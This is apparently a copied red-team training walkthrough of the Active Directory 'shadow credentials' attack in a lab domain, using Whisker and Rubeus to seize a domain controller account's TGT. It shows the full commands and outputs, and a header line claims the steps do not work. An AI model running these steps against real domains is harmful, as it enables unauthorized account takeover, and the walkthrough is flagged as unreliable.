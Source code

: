 ***This was straight copied and pasted from content, walk through does not work - many complaints were made in the `ZERO POINT SECURITY` discord***


Whilst Kerberos pre-authentication is typically carried out using a symmetric key derived from a client's password, asymmetric keys are also possible via Public Key Cryptography for Initial Authentication (PKINIT).  If a PKI solution is in place, such as Active Directory Certificate Services (next chapter), the domain controllers and domain members exchange their public keys via the appropriate Certificate Authority.  This is called the Certificate Trust model.

There is also a Key Trust model, where trust is established based on raw key data rather than a certificate.  This requires a client to store their key on their own domain object, in an attribute called `msDS-KeyCredentialLink`.  The basis of the "shadow credentials" attack is that if you can write to this attribute on a user or computer object, you can obtain a TGT for that principal.  As such, this is a DACL-style abuse as with RBCD.

Along with his excellent [blog post](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) on the subject, [Elad Shamir](https://twitter.com/elad_shamir) published a tool called [Whisker](https://github.com/eladshamir/Whisker), which makes exploiting this very easy.  First, we want to list any keys that might already be present for a target - this is important for when we want to clean up later.

```

beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
[*] No entries!
```
Add a new key pair to the target.
```

beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe add /target:dc-2$
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password y52EhYqlfgnYPuRb
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```
And now, we can ask for a TGT using the Rubeus command that Whisker provides.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:dc-2$ /certificate:MIIJuA[...snip...]ICB9A= /password:"y52EhYqlfgnYPuRb" /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: CN=dc-2$ 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\dc-2$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIGaj [...snip...] MuaW8=

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  dc-2$
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  1/21/2023 7:12:27 PM
  EndTime                  :  1/22/2023 5:12:27 AM
  RenewTill                :  1/28/2023 7:12:27 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  bKJ76Br5CFOL6zckBpl9IA==
  ASREP (key)              :  B0AA392AE0C969E268DAC4462D76FC90
```
Whisker's `clear` command will remove any and all keys from msDS-KeyCredentialLink.  This is a bad idea if a key was already present, because it will break legitimate passwordless authentication that was in place.  If this was the case, you can list the entries again and only remove the one you want.
```
beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe list /target:dc-2$
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Listing deviced for dc-2$:
    DeviceID: 58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403 | Creation Time: 1/21/2023 7:19:04 PM

beacon> execute-assembly C:\Tools\Whisker\Whisker\bin\Release\Whisker.exe remove /target:dc-2$ /deviceid:58d0ccec-1f8c-4c7a-8f7e-eb77bc9be403
[*] Searching for the target account
[*] Target user found: CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Found value to remove
[+] Updated the msDS-KeyCredentialLink attribute of the target object
```
